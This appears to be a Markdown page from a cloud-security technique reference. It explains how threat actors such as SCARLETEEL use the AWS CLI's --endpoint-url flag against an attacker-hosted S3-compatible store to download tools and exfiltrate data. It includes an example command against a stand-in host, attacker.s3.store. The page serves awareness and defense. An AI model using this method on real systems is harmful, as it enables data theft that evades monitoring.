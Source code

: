 ```yaml
---
author_name: Nick Frichette
title: Download Tools and Exfiltrate Data with the AWS CLI
description: Using the AWS CLI as a LOLScript to download and exfiltrate data.
hide:
  - toc
---
```


<div class="grid cards" markdown>

-   :material-alert-decagram:{ .lg .middle } __Technique seen in the wild__

    ---

    Reference: [SCARLETEEL 2.0: Fargate, Kubernetes, and Crypto](https://sysdig.com/blog/scarleteel-2-0/)

</div>

In an attempt to be stealthy, threat actors will often "[live off the land](https://github.com/LOLBAS-Project/LOLBAS)", using tools and scripts already existing on a host machine outside of their intended purpose. This can help them avoid detection by blending in with their surroundings.

In AWS environments, it is common to find servers which have the AWS CLI installed (It is included by [default](https://docs.aws.amazon.com/cli/v1/userguide/install-linux-al2017.html) in Amazon Linux). This makes it an excellent choice for adversaries to move data around, avoiding more common tools like [curl](https://curl.se/) or [Wget](https://www.gnu.org/software/wget/) which may be monitored for suspicious uses.

As seen in the wild by the [SCARLETEEL](https://sysdig.com/blog/scarleteel-2-0/) threat actor, the AWS CLI can be used to download and exfiltrate data using an attacker-hosted backend. You can host an S3 compatible object store such as [MinIO](https://min.io/) and then use the `--endpoint-url` flag to interact with that service. This makes it easy to download tools, exfiltrate compromised data and more.

```shell
$ aws s3 ls --endpoint-url https://attacker.s3.store
2023-07-13 02:06:30 criminalbucket
2023-07-13 22:01:36 exfiltrated-data
```
